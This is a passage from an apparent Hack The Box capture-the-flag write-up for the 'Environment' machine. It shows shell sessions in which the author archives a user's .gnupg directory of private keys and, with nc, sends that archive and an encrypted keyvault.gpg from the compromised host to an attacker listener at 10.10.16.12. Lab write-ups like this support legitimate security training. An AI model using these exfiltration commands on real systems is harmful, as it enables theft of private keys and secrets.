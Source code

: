 Due to the `lack of permissions` we `exfiltrated` the files to our local machine. We started by generating a `.tar.gz` archive of `.gnupg`.

```shell
www-data@environment:/home/hish$ tar -czvf /tmp/gnupg.tar.gz  .gnupg/
.gnupg/
.gnupg/private-keys-v1.d/
.gnupg/private-keys-v1.d/C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key
.gnupg/private-keys-v1.d/3B966A35D4A711F02F64B80E464133B0F0DBCB04.key
.gnupg/trustdb.gpg
.gnupg/pubring.kbx
.gnupg/openpgp-revocs.d/
.gnupg/openpgp-revocs.d/F45830DFB638E66CD8B752A012F42AE5117FFD8E.rev
.gnupg/pubring.kbx~
.gnupg/random_seed
```

Then we started with downloading the `keyvault.gpg`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > keyvault.gpg
listening on [any] 4444 ...
```

```shell
www-data@environment:/home/hish/backup$ nc 10.10.16.12 4444 < keyvault.gpg
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > keyvault.gpg
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.107.56] 43692
```

After that we `downloaded` and `extracted` the `archive`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > gnupg.tar.gz
listening on [any] 4444 ...
```

```shell
www-data@environment:/tmp$ nc 10.10.16.12 4444 < gnupg.tar.gz
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ nc -lnvp 4444 > gnupg.tar.gz
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.129.107.56] 37952
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ tar -xvf gnupg.tar.gz 
.gnupg/
.gnupg/private-keys-v1.d/
.gnupg/private-keys-v1.d/C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key
.gnupg/private-keys-v1.d/3B966A35D4A711F02F64B80E464133B0F0DBCB04.key
.gnupg/trustdb.gpg
.gnupg/pubring.kbx
.gnupg/openpgp-revocs.d/
.gnupg/openpgp-revocs.d/F45830DFB638E66CD8B752A012F42AE5117FFD8E.rev
.gnupg/pubring.kbx~
.gnupg/random_seed
```
